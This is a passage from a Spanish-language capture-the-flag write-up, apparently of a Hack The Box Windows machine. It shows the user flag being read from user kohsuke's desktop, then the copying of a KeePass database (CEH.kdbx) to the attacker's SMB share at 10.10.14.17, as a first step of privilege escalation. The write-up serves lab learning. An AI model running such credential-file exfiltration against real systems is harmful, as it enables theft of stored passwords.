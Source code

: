 Hemos conseguido entrar al sistema como el usuario **kohsuke**, ahora buscaremos la flag:

```
C:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3232272596fb47950d59c4
```



## [](#header-2)Escalada de privilegios


Si vamos abriendo las distintas carpetas del usuario **kohsuke**, encontramos lo siguiente:

```
Directory of C:\Users\kohsuke\Documents

11/03/2017  10:18 PM    <DIR>          .
11/03/2017  10:18 PM    <DIR>          ..
09/18/2017  12:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,642,771,968 bytes free
```

Encontramos un archivo .kdbx que corresponde a la extensión de **keepass**, podríamos sacar contraseñas con esto asi que lo traeremos a nuestro equipo a través del smb:

```
C:\Users\kohsuke\Documents>copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.17\shares
copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.17\shares
        1 file(s) copied.
```
De esta forma tenemos el archivo en nuestro equipo. Utilizando la herramienta `keepassxc` abrimos este archivo:


